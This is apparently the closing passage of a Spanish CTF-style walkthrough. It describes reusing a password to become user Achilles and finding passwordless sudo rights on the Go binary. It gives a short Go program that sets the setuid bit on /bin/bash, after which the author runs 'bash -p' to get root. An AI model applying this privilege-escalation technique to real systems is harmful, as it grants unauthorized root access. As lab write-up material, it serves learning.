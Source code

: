 ![[Pasted image 20240416220054.png]]

  
Así que, al probar cosas, vemos que la contraseña encontrada anteriormente es la misma para acceder a este usuario. Por lo tanto, ahora somos el usuario Achilles.

![[Pasted image 20240416220432.png]]

Enumerando al usuario actual vemos que este tiene permiso para ejecutar el comando `/usr/local/go/bin/go` con privilegios de superusuario sin necesidad de ingresar una contraseña.

![[Pasted image 20240416220715.png]]


Sabiendo esto, lo que podemos hacer es crear un script que aproveche el hecho de que Go se está ejecutando como root para asignar permisos setuid a la shell bash. El script quedaría de la siguiente manera:


```go
package main

import (
    "fmt"
    "os/exec"
)

func main() {
    // Asigna permisos setuid a la shell bash
    cmd := exec.Command("chmod", "u+s", "/bin/bash")
    
    // Ejecuta el comando y maneja cualquier error
    if err := cmd.Run(); err != nil {
        fmt.Println("Error al ejecutar el comando:", err)
        return
    }
    
    fmt.Println("Permisos setuid asignados correctamente a /bin/bash")
}

```

Si los compilamos y ejecutamos, podemos ver que se han asignado correctamente los permisos setuid a la bash. Ahora, si ejecutamos una bash con la bandera `-p`, veremos que ahora somos el usuario root. Hemos escalado privilegios correctamente.


![[Pasted image 20240416223325.png]]


"Ahora solo nos dirigimos a la carpeta personal de root y nos da un mensaje de felicitación.


![[Pasted image 20240416223530.png]]